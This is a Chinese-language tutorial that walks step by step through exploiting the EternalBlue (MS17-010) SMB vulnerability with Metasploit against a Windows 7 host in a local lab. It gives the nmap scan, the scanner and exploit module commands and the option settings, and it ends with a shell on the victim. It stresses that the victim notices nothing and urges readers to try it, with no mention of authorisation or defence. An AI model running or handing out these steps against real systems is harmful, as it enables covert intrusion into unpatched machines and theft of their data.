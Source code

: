 #内网渗透超级好用，永恒之蓝了解一下

##Eternalblue漏洞介绍
永恒之蓝（英语：EternalBlue）是美国国家安全局开发的漏洞利用程序，于2017年4月14日被黑客组织泄漏。该工具利用445/TCP端口的文件分享协议的漏洞进行散播，被影响的Windows版本不计其数，**该漏洞可以不需要victim执行任何的操作，就可以远程控制victim的电脑**

马上开始我们的教程
------------------------------------------------------------------------


攻击者：Kali           IP地址:192.168.43.196

victim：Windows7       IP地址:192.168.43.14

这次我们用到的MS17-010模块，MSF框架里面已经集成了，所以我们不需要手动添加模块
上述提到永恒之蓝是利用TCP的445端口进行传播，那我们首先需要知道目标是否开启了445端口，在还没有打上补丁之前，默认该端口是开启的，*如果该端口没有开启便无法渗透成功*
##我们使用nmap来扫描一下victim的端口状态
```
namp -Pn 192.168.43.14
```
![nmap](ch2/0/nmap.png)

从上述的扫描结果可以知道该主机的135,139,**445**等端口是开启的，并且可以看到每个端口对应的服务是什么，满足该条件之后，我们接着来扫描一下目标主机是否有这个漏洞，一般445端口开启都会满足
##接着加载MSF框架，使用search找到有关于MS17-010扫描模块
```
search ms17_010
```
![nmap](ch2/0/ms17.png)

从图片中可以看到有一个和scanner相关的，我们首先使用该模块来扫描一下
```
use auxiliary/scanner/smb/smb_ms17_010
```
使用该模块之后，我们来查看一下相关的参数
```
show options
```
![scanner](ch2/0/canshu.png)

别看这么多参数，我们只需要设置一个参数就好了，我们需要通过RHOSTS参数来指定我们扫描的对象是谁
```
set RHOST x.x.x.x
```
![RHOST](ch2/0/shezhi.png)

接下来
```
exploit
```
来测试是否满足条件，可以进行渗透测试
![exploit](ch2/0/host.png)

从图片中显示的***Host is likely VULNERABLE to MS17-010!***可以得知是满足渗透测试的条件
##接着我们使用MS17-010模块进行渗透
```
use exploit/windows/smb/ms17_010_eternalblue
```
![ms17](ch2/0/ms17-010.png)

一样先查看参数
```
show options
```
![show options](ch2/0/show.png)
也一样显示很多参数，我们还是只需要设置一个参数，那就是RHOSTS，该参数代表victim的IP地址
```
set RHOSTS x.x.x.x
```
![IP address](ch2/0/rhost.png)
设置完成之后再来一条
```
exploit
```
出现该页面说明渗透成功
![Cpan](ch2/0/shentou.png)

图片中出现了Windows系统才会有的C盘，这个时候我们已经获取到了victim的shell，可以对该电脑写入文件，查看信息之类的，***注意：此时victim是毫无察觉的，也不需要用户指定任何的操作***

比如查看victim用户几个账户

![Cpan](ch2/0/user.png)

这个教程比较简单，赶快动手试试吧!

更多优质渗透教程，欢迎访问B站，来关注，投币点赞啊
[B站频道传送门](https://space.bilibili.com/184594996/ "Bilibili")

***如果帮助到你，希望可以得到你的打赏***